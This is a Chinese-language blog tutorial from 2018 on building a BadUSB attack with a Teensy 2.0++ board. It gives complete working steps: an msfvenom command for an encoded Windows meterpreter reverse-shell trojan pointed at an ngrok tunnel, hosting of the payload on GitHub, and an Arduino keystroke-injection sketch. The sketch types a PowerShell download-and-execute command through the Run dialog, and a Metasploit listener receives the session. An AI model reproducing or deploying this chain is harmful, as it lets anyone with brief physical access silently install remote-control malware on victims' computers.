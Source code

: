 ```yaml
---
title: 渗透利器-Teensy（低配版BadUSB）
date: 2018-09-25 
tags: kali
layut: post
---
```


### 准备工作
* 一块 **Teensy2.0++** 的板子(淘宝一搜就有)
![1](http://da1sy.github.io/assets/images/9-Yue/teensy-1.jpg)
* Arduino解释器
    - 1.8.7版本下载连接：[arduino下载地址](https://downloads.arduino.cc/arduino-1.8.7-linux64.tar.xz "arduino") 
* Teensy插件
    - 下载连接：[Teensy下载地址](https://www.pjrc.com/teensy/td_144/TeensyduinoInstall.linux64 "Teensy")

### 1.下载好arduino后直接解压
```linux
⚡ /home/da1sy/arduino-1.8.7# ./arduino
```
### 2.安装Teensy插件
```
⚡ /home/da1sy/arduino-1.8.7# ./TeensyduinoInstall.linux64
```
**注意将插件安装到arduino的解压目录下**
### 3.arduino修改配置
打开软件后将 **工具** 下配置修改如下
![2](http://da1sy.github.io/assets/images/9-Yue/teensy-2.jpg)

### 4.利用ngrok实现内网穿透
#### 在https://www.ngrok.cc/ 注册账号后开通tcp隧道
![3](http://da1sy.github.io/assets/images/9-Yue/teensy-3.png)
#### 下载客户端
```linux
⚡/home/da1sy/桌面/linux_amd64# ./sunny clientid 隧道ID号
```
![4](http://da1sy.github.io/assets/images/9-Yue/teensy-4.png)
### 5.利用msfvenom生成windows端木马
```linux
 ⚡/home/da1sy# msfvenom -p windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 12 -b '\x00' lhost=free.idcfengye.com lport=17839 -f exe > windows.exe  
```
**lhost** 为运行sunny后的域名，**lport**为开通隧道时填写的端口（运行后也会有显示）
#### 最后将生成的木马放到github项目上实现远程下载
### 6.编辑arduino代码
```arduino
char *command1 = "powershell -Command $clnt = new-object System.Net.WebClient;$url= 'https://raw.githubusercontent.com/da1sy/da1sy/master/windows.exe';$file = ' %HOMEPATH%\\windows.exe ';$clnt.DownloadFile($url,$file); ";
char *command2 = "%HOMEPATH%\\windows.exe ";
//将连接的地址改为自己github的地址
void setup() { 
    delay(5000);
    omg(command1);
    delay(15000);
    omg(command2);
 }
  
void loop() {}

void omg(char *SomeCommand)
{
  Keyboard.set_modifier(128); 
  Keyboard.set_key1(KEY_R);
  Keyboard.send_now(); 
  Keyboard.set_modifier(0); 
  Keyboard.set_key1(0); 
  Keyboard.send_now(); 
  delay(1500);
  Keyboard.println(SomeCommand);
}
```
#### 编辑好后点**验证**，然后插入**Teensy**板子，最后按一下板子上的按钮完成上传

### 7.metasploit开启监听
![5](http://da1sy.github.io/assets/images/9-Yue/teensy-4.png)
```
⚡ /home/da1sy/# msfconsole

msf > use exploit/multi/handler
msf exploit(multi/handler) > set lhost 127.0.0.1
msf exploit(multi/handler) > set lport 6666
msf exploit(multi/handler) > exploit
```
### 8.最后对目标插入badusb
效果图如下
![6](http://da1sy.github.io/assets/images/9-Yue/teensy-s1.gif)

监听端
![7](http://da1sy.github.io/assets/images/9-Yue/teensy-s2.gif)
_最后反弹的会话好像是出现了毛病，不过总体上嘛 问题不大_

### 一些其他的代码
```

```